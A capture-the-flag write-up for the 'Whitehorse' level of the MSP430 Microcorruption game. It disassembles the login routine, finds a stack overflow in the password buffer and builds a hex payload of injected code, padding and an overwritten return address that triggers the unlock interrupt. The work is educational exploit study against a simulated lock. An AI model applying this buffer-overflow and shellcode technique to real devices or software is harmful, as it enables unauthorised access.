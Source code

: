 # whitehorse writeup

let's have a look at the different functions first:

**`<main>**:`

Lets look at the **`<main>`** function first, for this level it simply calls another function **`<login>`**

```asm
4438 <main>
4438:  b012 f444      call  #0x44f4 <login>
```

**`<login>**:`

this function doesn't look that interesting, but it calls another function: **<conditional_unlock_door>**

it prints ***“Access granted."*** or ***“That password is not correct."***

**!: Remember: passwords are between 8 and 16 characters.**

```asm
44f4 <login>
44f4: 3150 f0ff add #0xfff0, sp
44f8: 3f40 7044 mov #0x4470 "Enter the password to continue.", r15
44fc: b012 9645 call #0x4596 <puts>
4500: 3f40 9044 mov #0x4490 "Remember: passwords are between 8 and 16 characters.", r15
4504: b012 9645 call #0x4596 <puts>
4508: 3e40 3000 mov #0x30, r14
450c: 0f41 mov sp, r15
450e: b012 8645 call #0x4586 <getsn>
4512: 0f41 mov sp, r15
4514: b012 4644 call #0x4446 <conditional_unlock_door
4518: 0f93 tst r15
451a: 0324 jz #0x4522 <login+0x2e>
451c: 3f40 c544 mov #0x44c5 "Access granted.", r15
4520: 023c jmp #0x4526 <login+0x32>
4522: 3f40 d544 mov #0x44d5 "That password is not correct.", r15
4526: b012 9645 call #0x4596 <puts>
452a: 3150 1000 add #0x10, sp
452e: 3041 ret
```

**`<conditional_unlock_door>:`**

```asm
4446 <conditional_unlock_door>
4446:  0412           push  r4
4448:  0441           mov   sp, r4
444a:  2453           incd  r4
444c:  2183           decd  sp
444e:  c443 fcff      mov.b #0x0, -0x4(r4)
4452:  3e40 fcff      mov   #0xfffc, r14
4456:  0e54           add   r4, r14
4458:  0e12           push  r14
445a:  0f12           push  r15
445c:  3012 7e00      push  #0x7e ; lets have a look at the manual!
4460:  b012 3245      call  #0x4532 <INT>
4464:  5f44 fcff      mov.b -0x4(r4), r15
4468:  8f11           sxt   r15
446a:  3152           add   #0x8, sp
446c:  3441           pop   r4
446e:  3041           ret
```

***INT 0x7E:***

***Interface with the HSM-2. Trigger the deadbolt unlock if the password is
correct.***

***Takes one argument: the password to test.***

but after reading it for a while I noticed that I have to change it to this:

***INT 0x7F***

***``Interface with deadbolt to trigger an unlock if the password is correct.
Takes no arguments.``***

let's start debugging and enter a password:

I quickly realized that I can control the stack and after asking someone if I can call my own interrupt I simply did that.

let's have a look at this two instructions:

```asm
445c:  3012 7e00      push  #0x7e
4460:  b012 3245      call  #0x4532 <INT>
```

I just took `3012 7e00 b012 3245` for my own input to call 0x7e

I first asked myself what my payload should look like so I looked at the password buffer:

after playing around with the debugger I noticed that my password buffer starts at `3c72`

> read sp
 
`3c6a:   0200 723c 3000 1245  ..r<0..E`

`3c72:   4242 4242 4242 4242  BBBBBBBB`

`3c7a:   4242 4242 4242 4242  BBBBBBBB`

`3c82:   4242 4242 0000 0000  BBBB....`

( I entered 20 B's )

> read sp

`3c82:   4242 4242 0000 0000  BBBB....`

`3c8a:   0000 0000 0000 0000  ........`

`3c92:   0000 0000 0000 0000  ........`

`3c9a:   0000 0000 0000 0000  ........`

now the `stack pointer` is here

so the `ret` will jump to the address at the 17-18th position of the password buffer 

Payload (hex encoded):

the first 8 bytes will be `3012 7f00 b012 3245` for my changed interrupt

`7e00` (I had to change that to `7f00` to trigger **INT 0x7f**)

the next 8 bytes are `4242424242424242` (you obviously can also enter other for example `41` 8 times )

the last 2 bytes are `3c72` for the return

as you already know MSP 430 is `little endian` so it's `723c`

i did it with a python shell:

```python
>>> print('30127f00b0123245'+'41'*8+'723c')
```

this level was pretty tricky!

solved: 14.3.20
